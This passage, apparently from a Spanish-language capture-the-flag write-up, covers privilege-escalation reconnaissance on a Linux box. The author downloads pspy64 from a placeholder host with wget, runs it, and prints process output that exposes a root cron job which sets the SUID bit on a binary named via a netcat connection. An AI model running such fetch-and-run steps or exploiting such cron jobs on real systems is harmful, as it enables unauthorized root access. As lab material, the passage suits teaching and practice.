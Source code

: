 Vamos a ver los procesos que se estan ejecutando en el servidor, por lo que nos vamos a descargar `pspy64` en el siguiente link:

URL = Download pspy64

```shell
wget http://<IP>/pspy64
chmod +x pspy64
./pspy64
```

Info:

```
pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scanning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
done
2025/04/14 10:04:10 CMD: UID=1001  PID=12759  | ./pspy64 
2025/04/14 10:04:10 CMD: UID=0     PID=12755  | 
2025/04/14 10:04:10 CMD: UID=1001  PID=12727  | bash 
2025/04/14 10:04:10 CMD: UID=0     PID=12726  | su helder 
2025/04/14 10:04:10 CMD: UID=0     PID=12710  | 
2025/04/14 10:04:10 CMD: UID=0     PID=871    | 
2025/04/14 10:04:10 CMD: UID=1000  PID=749    | -bash 
2025/04/14 10:04:10 CMD: UID=1000  PID=748    | sshd: jack@pts/0     
2025/04/14 10:04:10 CMD: UID=1000  PID=740    | (sd-pam) 
2025/04/14 10:04:10 CMD: UID=1000  PID=739    | /lib/systemd/systemd --user 
2025/04/14 10:04:10 CMD: UID=0     PID=736    | sshd: jack [priv]    
2025/04/14 10:04:10 CMD: UID=33    PID=611    | /usr/sbin/apache2 -k start 
2025/04/14 10:04:10 CMD: UID=0     PID=8      | 
2025/04/14 10:04:10 CMD: UID=0     PID=6      | 
2025/04/14 10:04:10 CMD: UID=0     PID=4      | 
2025/04/14 10:04:10 CMD: UID=0     PID=3      | 
2025/04/14 10:04:10 CMD: UID=0     PID=2      | 
2025/04/14 10:04:10 CMD: UID=0     PID=1      | /sbin/init 
2025/04/14 10:05:01 CMD: UID=0     PID=12766  | /usr/sbin/CRON -f 
2025/04/14 10:05:01 CMD: UID=0     PID=12767  | /usr/sbin/CRON -f 
2025/04/14 10:05:01 CMD: UID=0     PID=12768  | /bin/sh -c nc -vv -q 1 localhost 10000 > /root/.local/out && if [ "$(cat /root/.local/helder.txt)" = "$(cat /home/helder/passwd.txt)" ] ; then chmod +s "/usr/bin/$(cat /root/.local/out)" ; fi
```
